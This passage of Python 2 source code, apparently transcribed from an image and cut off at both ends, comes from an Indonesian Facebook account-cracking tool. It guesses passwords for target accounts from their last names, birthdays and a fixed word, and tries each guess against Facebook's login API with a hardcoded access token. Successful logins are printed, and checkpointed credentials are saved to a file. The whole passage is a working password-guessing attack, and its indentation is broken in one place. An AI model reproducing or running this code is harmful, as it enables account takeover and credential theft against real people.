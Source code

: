                             cek.write("ID:" +user+ " Pw:" +pass2+"\n")
                            cek.close()
                            cekpoint.append(user+pass2)
                        else:
                            pass3 = b['last_name'] + '123'
                            data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;96m[✓] \x1b[1;92mBERHASIL'
                                print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;92m' + b['name']
                                print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;92m' + user
                                print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92m' + pass3 + '\n'
                                oks.append(user+pass3)
                            else:
                                if 'www.facebook.com' in q["error_msg"]:
                                    print '\x1b[1;96m[✖] \x1b[1;93mCEKPOINT'
                                    print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;93m' + b['name']
                                    print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;93m' + user
                                    print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93m' + pass3 + '\n'
                                    cek = open("out/super_cp.txt", "a")
                                    cek.write("ID:" +user+ " Pw:" +pass3+"\n")
                                    cek.close()
                                    cekpoint.append(user+pass3)
                                else:
                                    pass4 = 'Bangsat'
                                    data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
                            q = json.load(data)
                                    if 'access_token' in q:
                                        print '\x1b[1;96m[✓] \x1b[1;92mBERHASIL'
                                        print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;92m' + b['name']
                                        print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;92m' + user
                                        print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92m' + pass4 + '\n'
                                        oks.append(user+pass4)
                                    else:
                                        if 'www.facebook.com' in q["error_msg"]:
                                            print '\x1b[1;96m[✖] \x1b[1;93mCEKPOINT'
                                            print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;93m' + b['name']
                                            print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;93m' + user
                                            print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93m' + pass4 + '\n'
                                            cek = open("out/super_cp.txt", "a")
                                            cek.write("ID:" +user+ " Pw:" +pass4+"\n")
                                            cek.close()
                                            cekpoint.append(user+pass4)
                                        else:
                                            birthday = b['birthday']
                                            pass5 = birthday.replace('/', '')
                                            data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
                                            q = json.load(data)
                                            if 'access_token' in q:
                                                print '\x1b[1;96m[✓] \x1b[1;92mBERHASIL'
                                                print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;92m' + b['name']
                                                print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m      : \x1b[1;92m' + user
                                                print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92m' + pass5 + '\n'
                                                oks.append(user+pass5)
                                            else:
                                                if 'www.facebook.com' in q["error_msg"]:
                                                    print '\x1b[1;96m[✖] \x1b[1;93mCEKPOINT'
                                                    print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m    : \x1b[1;93m' + b['name']